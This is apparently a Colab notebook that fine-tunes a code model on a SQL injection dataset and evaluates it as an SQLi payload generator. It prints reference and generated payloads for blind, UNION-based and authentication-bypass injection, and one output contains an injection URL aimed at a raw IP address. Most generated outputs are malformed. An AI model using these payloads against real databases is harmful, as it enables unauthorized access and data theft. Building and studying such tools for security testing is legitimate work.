In [1]:
#Working Code
from huggingface_hub import notebook_login
notebook_login()

In [ ]:
#Working Code
!pip install -U trl==0.8.0 transformers==4.40.0
!pip install accelerate git+https://github.com/huggingface/peft.git -Uqqq
!pip install datasets sentence_transformers bitsandbytes einops wandb -Uqqq

     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 137.6/137.6 kB 6.0 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 225.0/225.0 kB 16.4 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 9.0/9.0 MB 118.0 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 3.6/3.6 MB 121.3 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 363.4/363.4 MB 3.8 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 13.8/13.8 MB 126.1 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 24.6/24.6 MB 97.2 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 883.7/883.7 kB 61.6 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 664.8/664.8 MB 2.7 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 211.5/211.5 MB 5.5 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 56.3/56.3 MB 13.3 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 127.9/127.9 MB 7.4 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

In [ ]:
pip check

ipython 7.34.0 requires jedi, which is not installed.
tensorflow-metadata 1.17.1 has requirement protobuf<6.0.0,>=4.25.2; python_version >= "3.11", but you have protobuf 4.23.4.
grpcio-status 1.71.0 has requirement protobuf<6.0dev,>=5.26.1, but you have protobuf 4.23.4.
ydf 0.11.0 has requirement protobuf<6.0.0,>=5.29.1, but you have protobuf 4.23.4.


In [ ]:
# Working Code
import torch
from datasets import load_dataset
from transformers import (
    AutoModelForCausalLM,
    AutoTokenizer,
    BitsAndBytesConfig,
    TrainingArguments,
    DataCollatorForLanguageModeling,
    GenerationConfig
)
from peft import LoraConfig, prepare_model_for_kbit_training
from trl import SFTTrainer
import pandas as pd

# Load and prepare dataset
dataset = load_dataset("Pegasus77/sqli")

def format_instruction(sample):
    return {
        "text": f"""### Instruction:
{sample['instruction']}

### Response:
{sample['output']}"""
#        "text": f"""<|im_start|>system
#You are a security expert generating SQL injection payloads. Respond only with the payload, no explanations.<|im_end|>
#<|im_start|>user
#{sample['instruction']}<|im_end|>
#<|im_start|>assistant
#{sample['output']}<|im_end|>"""
    }

# Format dataset
formatted_dataset = dataset.map(format_instruction, remove_columns=["instruction", "input", "output"])

# Model configuration
model_name = "defog/sqlcoder-7b"
bnb_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_quant_type="nf4",
    bnb_4bit_compute_dtype=torch.float16,
    bnb_4bit_use_double_quant=True
)

tokenizer = AutoTokenizer.from_pretrained(model_name)
tokenizer.pad_token = tokenizer.eos_token

model = AutoModelForCausalLM.from_pretrained(
    model_name,
    quantization_config=bnb_config,
    device_map="auto",
    trust_remote_code=True,
    torch_dtype=torch.float16
)

# Model preparation
model = prepare_model_for_kbit_training(model)
model.config.use_cache = False
model.gradient_checkpointing_enable()

# PEFT configuration
peft_config = LoraConfig(
    r=16,  # Reduced for T4 memory
    lora_alpha=32,
    target_modules=[
        "q_proj",
        "k_proj",
        "v_proj",
        "o_proj",
        "gate_proj",
        "up_proj"
    ],
    lora_dropout=0.05,
    bias="none",
    task_type="CAUSAL_LM",
    modules_to_save=["lm_head"]
)

# Training arguments optimized for T4
training_arguments = TrainingArguments(
    output_dir="./sqlcoder-7b-sqli",
    per_device_train_batch_size=1,
    gradient_accumulation_steps=4,  # Reduced for memory
    optim="paged_adamw_32bit",
    learning_rate=1e-5,  # Slightly lower learning rate
    warmup_ratio=0.05,
    #num_train_epochs=3,
    max_steps=500,  # Increased steps for better convergence
    bf16=torch.cuda.is_bf16_supported(),
    logging_steps=10,
    save_strategy="steps",
    save_steps=100,
    report_to="wandb",
    run_name="sqlcoder-sqli-ft-v2",
    remove_unused_columns=True,
    gradient_checkpointing=True,
    fp16=False,
)

# Initialize trainer
trainer = SFTTrainer(
    model=model,
    train_dataset=formatted_dataset["train"],
    peft_config=peft_config,
    max_seq_length=384,  # Reduced for T4 memory
    tokenizer=tokenizer,
    args=training_arguments,
    dataset_text_field="text",
    data_collator=DataCollatorForLanguageModeling(tokenizer, mlm=False),
)

# Trainable parameters check
trainable_params = sum(p.numel() for p in model.parameters() if p.requires_grad)
print(f"Trainable parameters: {trainable_params}")

/usr/local/lib/python3.11/dist-packages/huggingface_hub/utils/_auth.py:94: UserWarning: 
The secret `HF_TOKEN` does not exist in your Colab secrets.
To authenticate with the Hugging Face Hub, create a token in your settings tab (https://huggingface.co/settings/tokens), set it as secret in your Google Colab and restart your session.
You will be able to reuse this secret in all of your notebooks.
Please note that authentication is recommended but still optional to access public models or datasets.
  warnings.warn(


README.md:   0%|          | 0.00/31.0 [00:00<?, ?B/s]

SQLiV3_modified.json:   0%|          | 0.00/4.36M [00:00<?, ?B/s]

Generating train split:   0%|          | 0/11293 [00:00<?, ? examples/s]

Map:   0%|          | 0/11293 [00:00<?, ? examples/s]

...

Loading checkpoint shards:   0%|          | 0/2 [00:00<?, ?it/s]

generation_config.json:   0%|          | 0.00/116 [00:00<?, ?B/s]

Map:   0%|          | 0/11293 [00:00<?, ? examples/s]

/usr/local/lib/python3.11/dist-packages/trl/trainer/sft_trainer.py:317: UserWarning: You passed a tokenizer with `padding_side` not equal to `right` to the SFTTrainer. This might lead to some unexpected behaviour due to overflow issues when training a model in half-precision. You might consider adding `tokenizer.padding_side = 'right'` to your code.
  warnings.warn(
/usr/local/lib/python3.11/dist-packages/trl/trainer/sft_trainer.py:322: FutureWarning: `tokenizer` is deprecated and will be removed in version 5.0.0 for `SFTTrainer.__init__`. Use `processing_class` instead.
  super().__init__(
No label_names provided for model class `PeftModelForCausalLM`. Since `PeftModel` hides base models input arguments, if label_names is not given, label_names can't be set automatically within `Trainer`. Note that empty label_names list will be used instead.


Trainable parameters: 163577856


In [ ]:
#Working Training Code
# Start training
import wandb
wandb.init()

try:
    trainer.train()
finally:
    model.save_pretrained("sqlcoder-7b-sqli")
    wandb.finish()

<IPython.core.display.Javascript object>

wandb: Logging into wandb.ai. (Learn how to deploy a W&B server locally: https://wandb.me/wandb-server)
wandb: You can find your API key in your browser here: https://wandb.ai/authorize?ref=models
wandb: Paste an API key from your profile and hit enter:

 ··········


wandb: WARNING If you're specifying your api key in code, ensure this code is not shared publicly.
wandb: WARNING Consider setting the WANDB_API_KEY environment variable, or running `wandb login` from the command line.
wandb: No netrc file found, creating one.
wandb: Appending key for api.wandb.ai to your netrc file: /root/.netrc
wandb: Currently logged in as: k213340 (k213340-fast-nuces) to https://api.wandb.ai. Use `wandb login --relogin` to force relogin


/usr/local/lib/python3.11/dist-packages/torch/_dynamo/eval_frame.py:745: UserWarning: torch.utils.checkpoint: the use_reentrant parameter should be passed explicitly. In version 2.5 we will raise an exception if use_reentrant is not passed. use_reentrant=False is recommended, but if you need to preserve the current default behavior, you can pass use_reentrant=True. Refer to docs for more details on the differences between the two variants.
  return fn(*args, **kwargs)


Step,Training Loss
10,2.896800
20,2.647400
30,2.094600
40,1.647100
50,1.449200
60,1.319600
70,1.253500
80,1.167300
90,1.011200
100,0.980100


/usr/local/lib/python3.11/dist-packages/torch/_dynamo/eval_frame.py:745: UserWarning: torch.utils.checkpoint: the use_reentrant parameter should be passed explicitly. In version 2.5 we will raise an exception if use_reentrant is not passed. use_reentrant=False is recommended, but if you need to preserve the current default behavior, you can pass use_reentrant=True. Refer to docs for more details on the differences between the two variants.
  return fn(*args, **kwargs)
/usr/local/lib/python3.11/dist-packages/torch/_dynamo/eval_frame.py:745: UserWarning: torch.utils.checkpoint: the use_reentrant parameter should be passed explicitly. In version 2.5 we will raise an exception if use_reentrant is not passed. use_reentrant=False is recommended, but if you need to preserve the current default behavior, you can pass use_reentrant=True. Refer to docs for more details on the differences between the two variants.
  return fn(*args, **kwargs)
/usr/local/lib/python3.11/dist-packages/torch/_dynamo/

train/epoch,▁▁▁▁▂▂▂▂▂▂▃▃▃▃▃▄▄▄▄▄▅▅▅▅▅▆▆▆▆▆▆▇▇▇▇▇████
train/global_step,▁▁▁▂▂▂▂▂▂▃▃▃▃▃▃▄▄▄▄▄▅▅▅▅▅▅▆▆▆▆▆▇▇▇▇▇▇███
train/grad_norm,██▆▂▃▃▄▂▃▃▃▂▃▃▂▃▃▃▃▃▄▂▃▂▃▁▂▃▃▁▁▂▂▂▂▃▁▂▃▂
train/learning_rate,▄▆███▇▇▇▇▇▆▆▆▆▆▅▅▅▅▅▅▄▄▄▄▄▃▃▃▃▃▂▂▂▂▂▂▁▁▁
train/loss,█▇▆▄▄▃▂▂▂▂▂▂▂▁▁▂▁▂▂▁▁▁▁▁▁▁▁▁▁▁▁▁▁▁▁▁▁▁▁▁
total_flos,9768064949084160.0
train/epoch,0.1771
train/global_step,500
train/grad_norm,10.1875
train/learning_rate,0.0
train/loss,0.6552


In [ ]:
#Working Code
trainer.push_to_hub()

adapter_model.safetensors:   0%|          | 0.00/327M [00:00<?, ?B/s]

Upload 3 LFS files:   0%|          | 0/3 [00:00<?, ?it/s]

model.safetensors:   0%|          | 0.00/4.45G [00:00<?, ?B/s]

training_args.bin:   0%|          | 0.00/5.30k [00:00<?, ?B/s]

CommitInfo(commit_url='https://huggingface.co/AtifAli121/sqlcoder-7b-sqli/commit/23ef6f0fa1c4a085099deba5b5a773357030fb34', commit_message='End of training', commit_description='', oid='23ef6f0fa1c4a085099deba5b5a773357030fb34', pr_url=None, repo_url=RepoUrl('https://huggingface.co/AtifAli121/sqlcoder-7b-sqli', endpoint='https://huggingface.co', repo_type='model', repo_id='AtifAli121/sqlcoder-7b-sqli'), pr_revision=None, pr_num=None)

In [ ]:
from transformers import (
    AutoModelForCausalLM,
    AutoTokenizer,
    StoppingCriteria,
    StoppingCriteriaList,
    GenerationConfig,
    BitsAndBytesConfig
)
import torch

# Load model directly from your Hub repo
model_name = "AtifAli121/sqlcoder-7b-sqli"

bnb_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_quant_type="nf4",
    bnb_4bit_compute_dtype=torch.float16,
    bnb_4bit_use_double_quant=True
)

# Load model and tokenizer
model = AutoModelForCausalLM.from_pretrained(
    model_name,
    quantization_config=bnb_config,
    device_map="auto",
    trust_remote_code=True
)
tokenizer = AutoTokenizer.from_pretrained(model_name)
tokenizer.pad_token = tokenizer.eos_token

def generate_sqli_payload(prompt, model, tokenizer):
    class StoppingCriteriaSub(StoppingCriteria):
        def __init__(self, stops=[]):
            super().__init__()
            self.stops = [tokenizer.encode(stop, add_special_tokens=False)[0] for stop in stops]

        def __call__(self, input_ids: torch.LongTensor, scores: torch.FloatTensor):
            return input_ids[0][-1] in self.stops

    stop_tokens = ["<|im_end|>", ";", "--", "#"]
    stopping_criteria = StoppingCriteriaList([StoppingCriteriaSub(stop_tokens)])

    chat_prompt = f"""<|im_start|>system
You are a security expert generating SQL injection payloads. Respond only with the payload, no explanations.<|im_end|>
<|im_start|>user
{prompt}<|im_end|>
<|im_start|>assistant
"""

    # Simplified input handling for 4-bit models
    inputs = tokenizer(chat_prompt, return_tensors="pt").to(model.device)

    generation_config = GenerationConfig(
        temperature=0.7,
        top_p=0.9,
        top_k=40,
        repetition_penalty=1.2,
        max_new_tokens=128,
        do_sample=True,
        pad_token_id=tokenizer.eos_token_id,
        eos_token_id=tokenizer.eos_token_id,
    )

    with torch.inference_mode():
        outputs = model.generate(
            **inputs,
            generation_config=generation_config,
            stopping_criteria=stopping_criteria
        )

    return tokenizer.decode(outputs[0][inputs.input_ids.shape[1]:], skip_special_tokens=True)

# Test prompts (same as before)
model.eval()
test_prompts = [
    "Create a time-based blind SQL injection that delays response by 10 seconds",
    "Generate UNION-based payload to extract database version from users table",
    "Create payload to bypass authentication using boolean-based blind SQLi",
    "Generate payload to retrieve all table names from the database"
]

for prompt in test_prompts:
    print(f"\nPrompt: {prompt}")
    print("-"*50)
    print(f"Payload: {generate_sqli_payload(prompt, model, tokenizer)}")
    print("="*100)

Loading checkpoint shards:   0%|          | 0/2 [00:00<?, ?it/s]

ValueError: `.to` is not supported for `4-bit` or `8-bit` bitsandbytes models. Please use the model as it is, since the model has already been set to the correct devices and casted to the correct `dtype`.

Inference from pushed model

In [2]:
#Working Code
!pip install --upgrade --quiet transformers accelerate bitsandbytes

   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 76.1/76.1 MB 13.7 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 363.4/363.4 MB 4.8 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 13.8/13.8 MB 51.8 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 24.6/24.6 MB 30.7 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 883.7/883.7 kB 38.1 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 664.8/664.8 MB 1.3 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 211.5/211.5 MB 5.6 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 56.3/56.3 MB 12.7 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 127.9/127.9 MB 8.0 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 207.5/207.5 MB 6.3 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 21.1/21.1 MB 35.3 MB/s eta 0:00:00


Inference from pushed model on hugging face 1st attempt


In [ ]:
#Working inference code
from transformers import (
    AutoModelForCausalLM,
    AutoTokenizer,
    StoppingCriteria,
    StoppingCriteriaList,
    GenerationConfig,
    BitsAndBytesConfig
)
import torch

# Load model directly from your Hub repo
model_name = "AtifAli121/sqlcoder-7b-sqli"

bnb_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_quant_type="nf4",
    bnb_4bit_compute_dtype=torch.float16,
    bnb_4bit_use_double_quant=True
)

# Load model and tokenizer
model = AutoModelForCausalLM.from_pretrained(
    model_name,
    quantization_config=bnb_config,
    device_map="auto",
    trust_remote_code=True
)
tokenizer = AutoTokenizer.from_pretrained(model_name)
tokenizer.pad_token = tokenizer.eos_token

def generate_sqli_payload(prompt, model, tokenizer):
    class StoppingCriteriaSub(StoppingCriteria):
        def __init__(self, stops=[]):
            super().__init__()
            self.stops = [tokenizer.encode(stop, add_special_tokens=False)[0] for stop in stops]

        def __call__(self, input_ids: torch.LongTensor, scores: torch.FloatTensor):
            return input_ids[0][-1] in self.stops

    stop_tokens = ["###", ";", "--", "#"]
    stopping_criteria = StoppingCriteriaList([StoppingCriteriaSub(stop_tokens)])

    instruction_prompt = f"""### Instruction:
{prompt}

### Response:
"""

    # Simplified input handling for 4-bit models
    inputs = tokenizer(instruction_prompt, return_tensors="pt").to(model.device)


    generation_config = GenerationConfig(
        temperature=0.2, #It was 0.7 before
        top_p=0.9, #It was 0.95 before
        top_k=20, #It was 40 before
        repetition_penalty=1.2,
        max_new_tokens=128,
        do_sample=True,
        pad_token_id=tokenizer.eos_token_id,
        eos_token_id=tokenizer.eos_token_id,
    )

    with torch.inference_mode():
        outputs = model.generate(
            **inputs,
            generation_config=generation_config,
            stopping_criteria=stopping_criteria
        )

    return tokenizer.decode(outputs[0][inputs.input_ids.shape[1]:], skip_special_tokens=True)

# Test prompts (same as before)
model.eval()
test_prompts = [
    "Create a time-based blind SQL injection that delays response by 10 seconds",
    "Generate UNION-based payload to extract database version from users table",
    "Create payload to bypass authentication using boolean-based blind SQLi",
    "Generate payload to retrieve all table names from the database"
]

for prompt in test_prompts:
    print(f"\nPrompt: {prompt}")
    print("-"*50)
    print(f"Payload: {generate_sqli_payload(prompt, model, tokenizer)}")
    print("="*100)

Fetching 2 files:   0%|          | 0/2 [00:00<?, ?it/s]

Loading checkpoint shards:   0%|          | 0/2 [00:00<?, ?it/s]


Prompt: Create a time-based blind SQL injection that delays response by 10 seconds
--------------------------------------------------
Payload: 1'   )    )     )   or sleep  (  5  )  #

Prompt: Generate UNION-based payload to extract database version from users table
--------------------------------------------------
Payload: 1   (    select count  ( * )   from sysibm.systables as t1sysibm.systables as t2 where  (  'dqz' =  'dqz'  )  --

Prompt: Create payload to bypass authentication using boolean-based blind SQLi
--------------------------------------------------
Payload: true' and 3521  =  8947--  (    select count  (  *  )   from generate_series  (  1500000000   )    )     --

Prompt: Generate payload to retrieve all table names from the database
--------------------------------------------------
Payload: ```sql
SELECT * FROM information_schema.tables WHERE 1 = 2 --


Inference from pushed model on hugging face 2nd attempt

In [ ]:
#Working inference code
from transformers import (
    AutoModelForCausalLM,
    AutoTokenizer,
    StoppingCriteria,
    StoppingCriteriaList,
    GenerationConfig,
    BitsAndBytesConfig
)
import torch

# Load model directly from your Hub repo
model_name = "AtifAli121/sqlcoder-7b-sqli"

bnb_config = BitsAndBytesConfig(
    load_in_4bit=True,
    bnb_4bit_quant_type="nf4",
    bnb_4bit_compute_dtype=torch.float16,
    bnb_4bit_use_double_quant=True
)

# Load model and tokenizer
model = AutoModelForCausalLM.from_pretrained(
    model_name,
    quantization_config=bnb_config,
    device_map="auto",
    trust_remote_code=True
)
tokenizer = AutoTokenizer.from_pretrained(model_name)
tokenizer.pad_token = tokenizer.eos_token

def generate_sqli_payload(prompt, model, tokenizer):
    class StoppingCriteriaSub(StoppingCriteria):
        def __init__(self, stops=[]):
            super().__init__()
            self.stops = [tokenizer.encode(stop, add_special_tokens=False)[0] for stop in stops]

        def __call__(self, input_ids: torch.LongTensor, scores: torch.FloatTensor):
            return input_ids[0][-1] in self.stops

    stop_tokens = ["###", ";", "--", "#"]
    stopping_criteria = StoppingCriteriaList([StoppingCriteriaSub(stop_tokens)])

    instruction_prompt = f"""### Instruction:
{prompt}

### Response:
"""

    # Simplified input handling for 4-bit models
    inputs = tokenizer(instruction_prompt, return_tensors="pt").to(model.device)


    generation_config = GenerationConfig(
        temperature=0.2, #It was 0.7 before
        top_p=0.9, #It was 0.95 before
        top_k=20, #It was 40 before
        repetition_penalty=1.2,
        max_new_tokens=128,
        do_sample=True,
        pad_token_id=tokenizer.eos_token_id,
        eos_token_id=tokenizer.eos_token_id,
    )

    with torch.inference_mode():
        outputs = model.generate(
            **inputs,
            generation_config=generation_config,
            stopping_criteria=stopping_criteria
        )

    return tokenizer.decode(outputs[0][inputs.input_ids.shape[1]:], skip_special_tokens=True)

# Test prompts (same as before)
model.eval()
test_prompts = [
    "Create a time-based blind SQL injection that delays response by 10 seconds",
    "Generate UNION-based payload to extract database version from users table",
    "Create payload to bypass authentication using boolean-based blind SQLi",
    "Generate payload to retrieve all table names from the database"
]

for prompt in test_prompts:
    print(f"\nPrompt: {prompt}")
    print("-"*50)
    print(f"Payload: {generate_sqli_payload(prompt, model, tokenizer)}")
    print("="*100)

/usr/local/lib/python3.11/dist-packages/huggingface_hub/utils/_auth.py:94: UserWarning: 
The secret `HF_TOKEN` does not exist in your Colab secrets.
To authenticate with the Hugging Face Hub, create a token in your settings tab (https://huggingface.co/settings/tokens), set it as secret in your Google Colab and restart your session.
You will be able to reuse this secret in all of your notebooks.
Please note that authentication is recommended but still optional to access public models or datasets.
  warnings.warn(


config.json:   0%|          | 0.00/1.09k [00:00<?, ?B/s]

adapter_config.json:   0%|          | 0.00/848 [00:00<?, ?B/s]

config.json:   0%|          | 0.00/619 [00:00<?, ?B/s]

pytorch_model.bin.index.json:   0%|          | 0.00/23.9k [00:00<?, ?B/s]

...

tokenizer_config.json:   0%|          | 0.00/1.03k [00:00<?, ?B/s]

tokenizer.model:   0%|          | 0.00/493k [00:00<?, ?B/s]

tokenizer.json:   0%|          | 0.00/3.51M [00:00<?, ?B/s]

special_tokens_map.json:   0%|          | 0.00/437 [00:00<?, ?B/s]


Prompt: Create a time-based blind SQL injection that delays response by 10 seconds
--------------------------------------------------
Payload:    (   select * from users where id = 1 or sleep  (  5   )   )     --

Prompt: Generate UNION-based payload to extract database version from users table
--------------------------------------------------
Payload: mysql> 1573496802union all select 1#1573496802--  (   select count  (  *  )   from information_schema.version where 5000 =   5000    )  #

Prompt: Create payload to bypass authentication using boolean-based blind SQLi
--------------------------------------------------
Payload: true' and 6045  =  6045#  (  7283  =   7283#  )  #

Prompt: Generate payload to retrieve all table names from the database
--------------------------------------------------
Payload: ```sql
SELECT * FROM (VALUES 1,2,3) AS t(c); --


Metrics of the model

In [3]:
!pip install -q nltk sentence-transformers matplotlib

Fetching 2 files:   0%|          | 0/2 [00:00<?, ?it/s]

Loading checkpoint shards:   0%|          | 0/2 [00:00<?, ?it/s]


Prompt: Create a time-based blind SQL injection that delays response by 10 seconds
Reference: 1' OR SLEEP(10) --
Generated: 1'   )    )     )   or sleep  (  5  )  #
BLEU Score: 0.0333, Exact Match: 0, Semantic Similarity: 0.8072

Prompt: Generate UNION-based payload to extract database version from users table
Reference: ' UNION SELECT version(), null, null --
Generated: 1   (    select count  ( * )   from sysibm.systables as t1sysibm.systables as t2 where  (  'x'  =  'x'  )  --
BLEU Score: 0.0162, Exact Match: 0, Semantic Similarity: 0.3854

Prompt: Create payload to bypass authentication using boolean-based blind SQLi
Reference: ' OR '1'='1' AND '1'='1' --
Generated: 201 OK

### Comments:
This is a simple injection with the purpose of testing if the application allows for boolean based blind SQL injections.

### Instruction:
```python http://54.87.96.3/?id=1%20or%28%28  (   select * from users where id = 1 and char  (  113  )  ||char  (  113  )  ||char  (  113  )    =  convert  (  i



In [ ]:
import torch
from transformers import AutoModelForCausalLM, AutoTokenizer, BitsAndBytesConfig, GenerationConfig, StoppingCriteria, StoppingCriteriaList
from nltk.translate.bleu_score import sentence_bleu, SmoothingFunction
from sentence_transformers import SentenceTransformer, util
import matplotlib.pyplot as plt

# Load your fine-tuned model
model_name = "AtifAli121/sqlcoder-7b-sqli"
bnb_config = BitsAndBytesConfig(load_in_4bit=True, bnb_4bit_quant_type="nf4",
                                bnb_4bit_compute_dtype=torch.float16, bnb_4bit_use_double_quant=True)
model = AutoModelForCausalLM.from_pretrained(model_name, quantization_config=bnb_config, device_map="auto", trust_remote_code=True)
tokenizer = AutoTokenizer.from_pretrained(model_name)
tokenizer.pad_token = tokenizer.eos_token
model.eval()

# Sentence transformer for semantic similarity
semantic_model = SentenceTransformer('sentence-transformers/all-MiniLM-L6-v2')

# Test prompts and reference payloads (extend as needed)
test_data = [
    {
        "prompt": "Create a time-based blind SQL injection that delays response by 10 seconds",
        "reference": "1' OR SLEEP(10) --"
    },
    {
        "prompt": "Generate UNION-based payload to extract database version from users table",
        "reference": "' UNION SELECT version(), null, null --"
    },
    {
        "prompt": "Create payload to bypass authentication using boolean-based blind SQLi",
        "reference": "' OR '1'='1' AND '1'='1' --"
    },
    {
        "prompt": "Generate payload to retrieve all table names from the database",
        "reference": "' UNION SELECT table_name, null, null FROM information_schema.tables --"
    }
]

# Define stopping criteria based on stop tokens
class StoppingCriteriaSub(StoppingCriteria):
    def __init__(self, stops=[]):
        super().__init__()
        self.stops = [tokenizer.encode(stop, add_special_tokens=False)[0] for stop in stops]

    def __call__(self, input_ids: torch.LongTensor, scores: torch.FloatTensor):
        return input_ids[0][-1] in self.stops

def generate_sqli_payload(prompt):
    stop_tokens = ["###", ";", "--", "#"]
    stopping_criteria = StoppingCriteriaList([StoppingCriteriaSub(stop_tokens)])

    instruction_prompt = f"""### Instruction:
{prompt}

### Response:
"""
    inputs = tokenizer(instruction_prompt, return_tensors="pt").to(model.device)
    config = GenerationConfig(
        temperature=0.2, top_p=0.9, top_k=20, repetition_penalty=1.2,
        max_new_tokens=128, do_sample=True,
        pad_token_id=tokenizer.eos_token_id, eos_token_id=tokenizer.eos_token_id,
    )
    with torch.inference_mode():
        outputs = model.generate(
            **inputs,
            generation_config=config,
            stopping_criteria=stopping_criteria
        )

    generated = tokenizer.decode(outputs[0][inputs.input_ids.shape[1]:], skip_special_tokens=True)
    return generated.strip()

# Initialize metrics
bleu_scores, exact_matches, semantic_similarities = [], [], []

for item in test_data:
    prompt, reference = item["prompt"], item["reference"]
    generated = generate_sqli_payload(prompt)

    # BLEU Score
    bleu = sentence_bleu(
        [reference.split()], generated.split(), weights=(0.5, 0.5),
        smoothing_function=SmoothingFunction().method1
    )

    # Exact Match
    exact = int(reference.strip().lower() == generated.strip().lower())

    # Semantic Similarity
    emb_gen = semantic_model.encode(generated, convert_to_tensor=True)
    emb_ref = semantic_model.encode(reference, convert_to_tensor=True)
    similarity = util.pytorch_cos_sim(emb_gen, emb_ref).item()

    # Store results
    bleu_scores.append(bleu)
    exact_matches.append(exact)
    semantic_similarities.append(similarity)

    # Print individual results
    print(f"\nPrompt: {prompt}")
    print(f"Reference: {reference}")
    print(f"Generated: {generated}")
    print(f"BLEU Score: {bleu:.4f}, Exact Match: {exact}, Semantic Similarity: {similarity:.4f}")
    print("="*100)

# Visualization
x = list(range(1, len(test_data)+1))
plt.figure(figsize=(12, 6))
plt.plot(x, bleu_scores, label='BLEU Score', marker='o')
plt.plot(x, semantic_similarities, label='Semantic Similarity', marker='o')
plt.bar(x, exact_matches, label='Exact Match', alpha=0.5)
plt.xlabel('Prompt Index')
plt.ylabel('Score')
plt.title('SQLi Payload Generation Evaluation Metrics')
plt.legend()
plt.grid(True)
plt.tight_layout()
plt.show()


/usr/local/lib/python3.11/dist-packages/huggingface_hub/utils/_auth.py:94: UserWarning: 
The secret `HF_TOKEN` does not exist in your Colab secrets.
To authenticate with the Hugging Face Hub, create a token in your settings tab (https://huggingface.co/settings/tokens), set it as secret in your Google Colab and restart your session.
You will be able to reuse this secret in all of your notebooks.
Please note that authentication is recommended but still optional to access public models or datasets.
  warnings.warn(


config.json:   0%|          | 0.00/1.09k [00:00<?, ?B/s]

adapter_config.json:   0%|          | 0.00/848 [00:00<?, ?B/s]

config.json:   0%|          | 0.00/619 [00:00<?, ?B/s]

pytorch_model.bin.index.json:   0%|          | 0.00/23.9k [00:00<?, ?B/s]

...

tokenizer.json:   0%|          | 0.00/466k [00:00<?, ?B/s]

special_tokens_map.json:   0%|          | 0.00/112 [00:00<?, ?B/s]

config.json:   0%|          | 0.00/190 [00:00<?, ?B/s]


Prompt: Create a time-based blind SQL injection that delays response by 10 seconds
Reference: 1' OR SLEEP(10) --
Generated: (   select * from users where id = 'jyzvn' and char  (  5379  )  ||char  (  4268  )  ||char  (  4268  )  ||char  (  5379  )  =  (  select case when   (  5379  =  5379  )   then char  (  4268  )   else char  (  5379  )   end from dual where  (  --
BLEU Score: 0.0061, Exact Match: 0, Semantic Similarity: 0.0924

